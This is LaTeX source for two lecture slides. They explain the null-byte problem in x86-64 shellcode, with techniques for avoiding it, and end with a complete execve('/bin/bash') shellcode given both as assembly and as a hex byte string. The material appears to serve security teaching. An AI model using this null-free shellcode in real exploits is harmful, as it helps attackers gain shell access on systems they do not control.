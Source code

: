 \begin{frame}{Shellcode: Zero-bytes problem}
	\subsection{Zero-bytes problem}
	\begin{block}{Zero-bytes presence is caused by data and addresses}
		\begin{itemize}
			\item \emph{mov rax, 11h} is equivalent to \emph{mov rax, 0000000000000011h}.
			\item \emph{lea rax, [rel message]} is equivalent to \emph{lea rax, [rip + 0000\ldots{}xxh]}.
			\item \emph{execve}, for instance, requires a null terminated string and some null parameters.
		\end{itemize}
	\end{block}
	\begin{block}{Solutions}
		\begin{itemize}
			\item Use \emph{xor} operation to zero a register.
			\item Use smaller registers (e.g.: rax $\rightarrow$ eax $\rightarrow$ ax $\rightarrow$ [ah,al])
			\item Use \emph{add} operation: immediate operator is not expanded.
			\item Place non-null marker and substitute them inside the code.
			\item Make a relative reference offset negative.
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}{Shellcode: second attempt}
	\acode
	\begin{lstlisting}
		bits 64
		jmp code
		filename db '/bin/bash','n' ; 'n' is the marker
		args db 16
		code:
		  lea rdi, [rel filename] ; negative offset
		  lea rsi, [rel args] ; negative offset
		  xor rdx, rdx ; zeros rdx
		  mov [rel filename+10], dl ; zeros the marker 
		  mov [rel args], rdi
		  mov [rel args+8], rdx
		  xor rax,rax ; zeros rax
		  mov al, 59 ; uses smaller register
		  syscall
	\end{lstlisting}
	\begin{lstlisting}
		\xeb\x0b\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x6e
		\x10\x48\x8d\x3d\xee\xff\xff\xff\x48\x8d\x35\xf1
		\xff\xff\xff\x48\x31\xd2\x88\x15\xe8\xff\xff\xff
		\x48\x89\x3d\xe1\xff\xff\xff\x48\x89\x15\xe2\xff
		\xff\xff\x48\x31\xc0\xb0\x3b\x0f\x05
	\end{lstlisting}
	\begin{itemize}
		\item Zero-bytes eliminated.
	\end{itemize}
\end{frame}
